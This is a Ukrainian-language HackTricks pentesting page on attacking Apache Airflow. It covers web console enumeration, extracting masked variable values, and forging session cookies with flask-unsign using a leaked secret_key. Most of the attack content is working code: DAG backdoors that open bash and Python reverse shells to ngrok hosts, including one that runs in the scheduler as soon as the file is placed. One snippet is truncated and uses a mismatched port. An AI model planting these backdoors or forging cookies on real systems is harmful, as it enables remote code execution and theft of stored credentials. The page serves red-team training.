 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) служить платформою для **орchestrating та планування даних pipelines або workflows**. Термін "орchestrating" в контексті даних pipelines означає процес організації, координації та управління складними даними workflows, що походять з різних джерел. Основна мета цих оркестрованих даних pipelines полягає в наданні оброблених та споживаних наборів даних. Ці набори даних широко використовуються безліччю додатків, включаючи, але не обмежуючись, інструментами бізнес-аналітики, моделями науки про дані та машинного навчання, які є основою функціонування додатків великих даних.

В основному, Apache Airflow дозволить вам **планувати виконання коду, коли щось** (подія, cron) **відбувається**.

### Local Lab

#### Docker-Compose

Ви можете використовувати **файл конфігурації docker-compose з** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) для запуску повного середовища apache airflow docker. (Якщо ви на MacOS, переконайтеся, що ви виділили принаймні 6 ГБ оперативної пам'яті для docker VM).

#### Minikube

Один із простих способів **запустити apache airflow** - це запустити його **з minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow може зберігати **чутливу інформацію** у своїй конфігурації або ви можете знайти слабкі конфігурації:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Перед початком атаки на Airflow ви повинні зрозуміти **як працюють дозволи**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Якщо у вас є **доступ до веб-консолі**, ви можете отримати доступ до деякої або всієї наступної інформації:

* **Змінні** (Користувацька чутлива інформація може зберігатися тут)
* **З'єднання** (Користувацька чутлива інформація може зберігатися тут)
* Доступ до них за адресою `http://<airflow>/connection/list/`
* [**Конфігурація**](./#airflow-configuration) (Чутлива інформація, така як **`secret_key`** та паролі, може зберігатися тут)
* Список **користувачів та ролей**
* **Код кожного DAG** (який може містити цікаву інформацію)

#### Retrieve Variables Values

Змінні можуть зберігатися в Airflow, щоб **DAG** могли **отримувати** їх значення. Це схоже на секрети інших платформ. Якщо у вас є **достатні дозволи**, ви можете отримати доступ до них у GUI за адресою `http://<airflow>/variable/list/`.\
Airflow за замовчуванням покаже значення змінної в GUI, однак, відповідно до [**цього**](https://marclamberti.com/blog/variables-with-apache-airflow/), можливо встановити **список змінних**, значення яких з'являться як **зірочки** в **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Однак ці **значення** все ще можуть бути **отримані** через **CLI** (вам потрібно мати доступ до БД), **виконання довільного DAG**, **API** доступ до кінцевої точки змінних (API потрібно активувати) і **навіть сам GUI!**\
Щоб отримати доступ до цих значень з GUI, просто **виберіть змінні**, до яких ви хочете отримати доступ, і **натисніть на Дії -> Експорт**.\
Інший спосіб - виконати **брутфорс** до **прихованого значення**, використовуючи **фільтрацію пошуку**, поки ви його не отримаєте:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Якщо конфігурація **`expose_config`** встановлена на **True**, з **ролі Користувач** і **вище** можуть **читати** **конфігурацію в вебі**. У цій конфігурації з'являється **`secret_key`**, що означає, що будь-який користувач з цим дійсним ключем може **створити свій власний підписаний cookie, щоб видавати себе за будь-який інший обліковий запис користувача**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE в Airflow worker)

Якщо у вас є **доступ на запис** до місця, де **зберігаються DAG**, ви можете просто **створити один**, який надішле вам **зворотний шелл.**\
Зверніть увагу, що цей зворотний шелл буде виконуватись всередині **контейнера airflow worker**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE в Airflow scheduler)

Якщо ви налаштуєте щось на **виконання в корені коду**, на момент написання цього тексту, це буде **виконано планувальником** через кілька секунд після розміщення його в папці DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Створення DAG

Якщо вам вдасться **зламати машину всередині кластера DAG**, ви зможете створити нові **скрипти DAG** у папці `dags/`, і вони будуть **репліковані на решті машин** всередині кластера DAG.

#### Впровадження коду в DAG

Коли ви виконуєте DAG з GUI, ви можете **передавати аргументи** йому.\
Отже, якщо DAG не правильно закодований, він може бути **вразливим до впровадження команд.**\
Саме це сталося в цьому CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Все, що вам потрібно знати, щоб **почати шукати впровадження команд у DAG**, це те, що **параметри** **доступні** за допомогою коду **`dag_run.conf.get("param_name")`**.

Більше того, та ж вразливість може виникнути з **змінними** (зверніть увагу, що з достатніми привілеями ви могли б **контролювати значення змінних** в GUI). Змінні **доступні за допомогою**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Якщо вони використовуються, наприклад, всередині команди bash, ви можете виконати ін'єкцію команди.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
